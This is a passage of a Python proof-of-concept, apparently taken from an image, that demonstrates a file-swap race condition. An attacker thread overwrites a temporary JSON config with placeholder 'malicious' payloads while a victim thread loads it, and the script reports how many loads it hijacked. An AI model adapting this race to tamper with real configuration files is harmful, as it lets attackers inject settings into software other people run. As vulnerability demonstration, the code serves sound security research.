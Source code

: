 ```python
    count = 0
    while count < 100:
        try:
            # Replace file with malicious content
            with open(target_file, 'w') as f:
                json.dump({"malicious": f"payload_{count}"}, f)
            count += 1
            time.sleep(0.001)
        except:
            pass

def victim_thread(target_file):
    """Victim loads config file"""
    results = []
    for i in range(50):
        try:
            config = vulnerable_from_json_file(target_file)
            results.append(config)
            time.sleep(0.01)
        except Exception as e:
            results.append(f"ERROR: {e}")
    return results

# Run PoC
if __name__ == "__main__":
    target = "/tmp/race_condition_test.json"

    # Create initial config
    with open(target, 'w') as f:
        json.dump({"legitimate": "config"}, f)

    print("🎯 Starting TOCTOU Race Condition PoC...")
    print(f"Target file: {target}")
    print("-" * 60)

    # Launch attacker
    attacker = threading.Thread(target=attacker_thread, args=(target,), daemon=True)
    attacker.start()

    # Victim loads config multiple times
    results = victim_thread(target)

    # Analyze results
    legitimate_loads = sum(1 for r in results if isinstance(r, dict) and 'legitimate' in r)
    malicious_loads = sum(1 for r in results if isinstance(r, dict) and 'malicious' in r)
    errors = sum(1 for r in results if isinstance(r, str) and 'ERROR' in r)

    print("\n📊 Results:")
    print(f"  Legitimate configs loaded: {legitimate_loads}")
    print(f"  Malicious configs loaded: {malicious_loads}")
    print(f"  Errors encountered: {errors}")
    print(f"  Total attempts: {len(results)}")

    if malicious_loads > 0:
        print("\n✅ Race condition exploited successfully!")
        print(f"   {malicious_loads}/{len(results)} loads were malicious")
    else:
        print("\n⚠️  Race condition exists but not exploited in this run")

    # Cleanup
    os.remove(target)
```
